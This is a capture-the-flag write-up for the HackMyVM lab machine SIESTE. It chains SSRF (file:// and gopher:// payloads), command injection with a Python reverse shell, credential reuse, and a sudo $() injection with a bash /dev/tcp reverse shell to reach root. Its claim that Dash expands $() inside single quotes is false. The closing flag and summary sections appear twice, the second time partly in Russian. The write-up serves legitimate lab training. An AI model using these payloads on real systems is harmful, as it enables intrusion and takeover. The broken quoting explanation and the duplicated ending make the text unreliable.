



# SIESTE — HackMyVM Writeup

Nov 9, 2026 · @шалопай

## Overview

**Machine:** SIESTE (HackMyVM) · **OS:** Ubuntu Linux · **Difficulty:** Medium

| Parameter | Value |
| --- | --- |
| Target IP | 172.20.10.3 |
| Open ports | 22 (SSH), 80 (HTTP) |
| User | fake |
| Root vector | SSRF → Gopher RCE → su fake → sudo Command Injection |

The machine runs a web application called "SIESTE" on Apache. Attack chain: SSRF via `sync.php` → read `db.php` via `file://` → extract MySQL credentials → register a user via internal API using Gopher → log in to the dashboard → RCE via command injection in the service field → reverse shell as `www-data` → `su fake` → `sudo /opt/user_sync` with `$()` command injection → root.

## Recon

### Network Discovery

Running `netdiscover` against the `172.20.10.0/24` subnet reveals three hosts. The target is `172.20.10.3` (MAC vendor: PCS Systemtechnik / VirtualBox).


### Nmap

```
nmap -sV -sC -p- -T4 --min-rate 5000 172.20.10.3
```

Two open ports:

| Port | Service | Version |
| --- | --- | --- |
| 22/tcp | SSH | OpenSSH 10.2p1 Ubuntu |
| 80/tcp | HTTP | Apache 2.4.66 (Ubuntu) |

Hostname resolves to `grenade.hmv`.


### Directory Enumeration

Running a directory/file bruteforce against the web server:

| Path | Status | Notes |
| --- | --- | --- |
| `/login.php` | 200 | Login form |
| `/db.php` | 200 | Empty response (DB config) |
| `/api` | 301 | Internal API endpoint |
| `/sync.php` | 200 | Synchronisation form |
| `/dashboard.php` | 302 | Redirect — requires auth |
| `/logout.php` | 302 | — |


## SSRF → LFI: Reading db.php

`sync.php` takes a `report_url` parameter and fetches it server-side — classic Server-Side Request Forgery.

### Identifying the SSRF

The `/sync.php` page exposes a "Field Lab Synchronization Hub" form with a URL input field.



We pass `file:///var/www/html/db.php` as the parameter value:

```
POST /sync.php HTTP/1.1
Host: 172.20.10.3
Content-Type: application/x-www-form-urlencoded

report_url=file:///var/www/html/db.php
```



### Extracted Credentials

The response returns the full `db.php` source with plaintext credentials:

```php
$user = 'sieste_app';
$pass = 'Containment2026!';
$db   = 'sieste_db';
$host = '127.0.0.1';
```

We now have `sieste_app:Containment2026!` for the MySQL instance on localhost.

## SSRF → Gopher: Registering a User via Internal API

Directory enumeration found an `/api` endpoint. Since `sync.php` can make requests from the server itself, we use the `gopher://` protocol to send an arbitrary HTTP POST to localhost.

### Locating the Registration Endpoint

Fuzzing `/api` reveals `registration.php`. The endpoint is only accessible from localhost — blocked externally.

### Building the Gopher Payload

We craft a POST request to `http://127.0.0.1/api/users/registration.php` and URL-encode it for the `gopher://` scheme:

```
report_url=gopher://127.0.0.1:80/_POST%20%2Fapi%2Fusers%2Fregistration.php%20HTTP%2F1.1%0D%0A
Host%3A%20127.0.0.1%0D%0AContent-Type%3A%20application%2Fx-www-form-urlencoded%0D%0A
Content-Length%3A%2034%0D%0A%0D%0Ausername%3Dhacker%26password%3Dhacker123
```


The request successfully registers user `hacker:hacker123` through the internal API. We now log in at `/login.php`.


## RCE via Dashboard → Reverse Shell

### Command Injection

After logging in, the dashboard exposes a "Target Service Daemon Identifier" field. User input is passed directly to something like `systemctl status <input>` — classic command injection via `;`.



Entering `apache2; id` returns `uid=33(www-data)` in the output, confirming RCE.

### Getting a Reverse Shell

Start a listener on the attack machine:

```bash
nc -lvnp 4444
```

Inject a Python reverse shell through the dashboard field:

```
apache2; python3 -c 'import socket,subprocess,os;s=socket.socket();s.connect(("172.20.10.4",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'
```

> 📸 **\[SCREENSHOT: netcat catches the connection — shell as www-data\]**

Upgrade to a full PTY:

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

We are now `www-data@sieste`.

## Lateral Movement → fake

### Reusing Credentials

`db.php` contained the password `Containment2026!`. We try it for the local user `fake` via `su`:

```bash
su fake
# Password: Containment2026!
```

It works.


### Analysing /opt/user\_sync

`/opt/` contains a binary `user_sync` executable. It runs as root via sudo (confirmed by `sudo -l`). We explore it:

```bash
ls -la /opt/user_sync
file /opt/user_sync
strings /opt/user_sync
```

`strings` leaks an SQL query, `chpasswd`, `openssl passwd -6`, and the MySQL password `Containment2026!` in plaintext.

The source code is available at `/home/fake/Development/user_sync.c`:

```bash
cat ~/Development/user_sync.c
```

> 📸 **\[SCREENSHOT: cat user\_sync.c output — key code blocks\]**

### Code Vulnerabilities

1. **`setresuid(0,0,0)` (line 11)** — the binary forces root privileges at runtime; redundant when called via `sudo`, but ensures any injected command runs as root.
2. **Weak input filter (line 51)** — only blocks `'`, `;`, `|`. Leaves `$()` (command substitution) completely unchecked.
3. **`popen()` and `system()` (lines 70, 101)** — user-controlled input is concatenated directly into shell command strings with no sanitisation.

Attack path: `openssl passwd -6 '$(...)'` → shell expands `$(...)` → arbitrary code executes as root.

## Privilege Escalation → root

### sudo -l

```bash
fake@sieste:~$ sudo -l
User fake may run the following commands on sieste:
    (ALL : ALL) NOPASSWD: /usr/bin/sudo -l
    (root) NOPASSWD: /opt/user_sync
```

`fake` can run `/opt/user_sync` as root with no password.

### Verifying the Filter Bypass

Passing `root` directly is blocked (UID < 1000). Using `fake` works and leaks the injection point. We run a quick PoC:

```bash
# PoC: confirm command runs as root
sudo /opt/user_sync fake "Password\$(whoami > /tmp/poc.txt)"
cat /tmp/poc.txt
# → root
```


### Why `$()` Bypasses the Filter

The filter at line 51 only checks for `'`, `;`, `|`. The characters `$`, `(`, `)` are not blocked. The password string is passed into `popen()` as:

```bash
openssl passwd -6 'Password$(whoami > /tmp/poc.txt)'
```

`popen` calls `/bin/sh -c "openssl passwd -6 'Password$(cmd)'"`. In `/bin/sh` (Dash), `$(...)` inside single quotes **is** expanded — unlike strict POSIX interpretation — so the subshell fires and runs our payload as root.

### Root Reverse Shell

Start a listener:

```bash
nc -lvp 5555
```

Fire the payload:

```bash
sudo /opt/user_sync fake "Password\$(bash -c \"bash -i >& /dev/tcp/172.20.10.4/5555 0>&1\")"
```

**Why `bash -c` instead of a direct `/dev/tcp` redirect?**`\
/bin/sh` on Ubuntu maps to Dash. Dash does not support `/dev/tcp` file descriptor redirects. Explicitly calling `bash -c "..."` spins up a full Bash subshell that handles network handles correctly.


```bash
root@sieste:/home/fake# id
uid=0(root) gid=0(root) groups=0(root)
```

## Root Flag

```bash
root@sieste:/home/fake# whoami;id;hostname
root
uid=0(root) gid=0(root) groups=0(root)
sieste
```

```bash
cat /root/root.txt
```


```
Flag: HMV{Never_trust_localhost_SIESTE}
```

---

## Attack Chain Summary

| # | Step | Technique |
| --- | --- | --- |
| 1 | Recon | nmap, directory bruteforce |
| 2 | SSRF → LFI | `file://` via `sync.php` → leak `db.php` |
| 3 | SSRF → Internal API | Gopher → POST `/api/users/registration.php` |
| 4 | Auth + RCE | Log in to dashboard → command injection in service field |
| 5 | Shell | Python reverse shell → `www-data` |
| 6 | Lateral | `su fake` with password from `db.php` |
| 7 | PrivEsc | `sudo /opt/user_sync` + `$()` command injection → root |

## Lessons Learned

- **SSRF + Gopher** is a powerful combo: you can hit any internal HTTP service, including localhost-only APIs, with a fully crafted request.
- **Blacklist input filtering** is an anti-pattern: missing `$()` from the filter is fatal when input lands in `popen()`/`system()`.
- **Hardcoded credentials** in source files (`db.php`, `strings /opt/user_sync`) are always the first place to look when pivoting.
- **`/bin/sh` ≠ bash**: Dash doesn't support `/dev/tcp` — always call `bash -c` explicitly in shell payloads.

```bash
root@sieste:/home/fake# whoami;id;hostname
root
uid=0(root) gid=0(root) groups=0(root)
sieste
```

```bash
root@sieste:/home/fake# cat /root/root.txt
```

> 📸 **\[СКРИНШОТ: терминал с флагом и ASCII-артом гранаты\]**

```
Flag: HMV{Never_trust_localhost_SIESTE}
```

---

## Итоговая цепочка атаки

| # | Шаг | Техника |
| --- | --- | --- |
| 1 | Recon | nmap, gobuster |
| 2 | SSRF → LFI | `file://` через `sync.php` → читаем `db.php` |
| 3 | SSRF → Internal API | Gopher → POST `/api/users/registration.php` |
| 4 | Auth + RCE | Вход на дашборд → command injection в поле сервиса |
| 5 | Shell | Python reverse shell → `www-data` |
| 6 | Lateral | `su fake` с паролем из `db.php` |
| 7 | PrivEsc | `sudo /opt/user_sync` + `$()` command injection → root |
